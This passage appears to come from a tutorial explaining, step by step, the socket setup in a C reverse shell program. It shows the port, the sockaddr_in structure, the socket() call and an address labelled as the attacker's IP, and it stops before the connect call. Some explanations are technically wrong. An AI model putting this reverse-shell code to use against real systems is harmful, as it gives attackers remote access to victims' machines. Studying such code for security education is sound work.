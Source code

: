### Main Body

After importing that headers into the reverse shell scripting there are lot of important things to do in the main program body. In here focusing only to the important parts of the body that need to explain little bit. 
In main body of the code need to define two main variables.

	- int sockt;
	- int port = 1234;

```javascript
int sockt – help to hold the socket of the program. This is actually a system call. Therefore, no need to assign that to any variable.
int port – this is the variable that hold the reverse shell listening port number.
```

After that need to define data structure for socket address. In here we can use “struct” data type because this data type help to combine or store different types of data like arrays. And here we use “sockaddr_in” this is essentially defined in netinet header and it help to store all the internet addresses, which we going to use. And finally need to define own structure name. in here it indicates as “revsockaddr”. 

- E.g., struct sockaddr_in revsockaddr;

After that need to call the socket function. Actually, socket function has three main arguments. These arguments define deferent characteristics. The first argument is for define the domain of the connection. It means IPv4 or IPv6. The second argument is for specify the connection. Third argument is for define the protocol.

- E.g., sockt = socket (AF_INET, SOCK_STREAM, 0);

```javascript
	AF_INET – define the domain is IPv4
	SOCK_STREAM – define the connection is two-way connection like between client and server.
	0 – when using “0” as third argument, operating system can choose whether to use TCP or UDP for the connection.
```

Now need to define the data structure of socket address using predefined calls and commands which include in the headers as below.

- revsockaddr.sin_family = AF_INET;

This define the type of connection address which means, what type of internet protocol is going to use for the connection. AF_INET indicate IPv4 is the internet protocol type that is going to use for establish the connection. Sin_family is a part of the netinet header.

- revsockaddr.sin_port = htons(port);

This actually specify the port that use to establish the connection and also this htons(); function help to convert this unsigned integer into network bytes. 

- revsockaddr.sin_addr.s_addr = inet_addr (“192.168.1.100”); 

This specify the internet address. Actually, this address is equal to attacker inet address. It means attacker’s local IP address. After creating the socket address structure, need to implement the connect system call which is help to establish the connection.
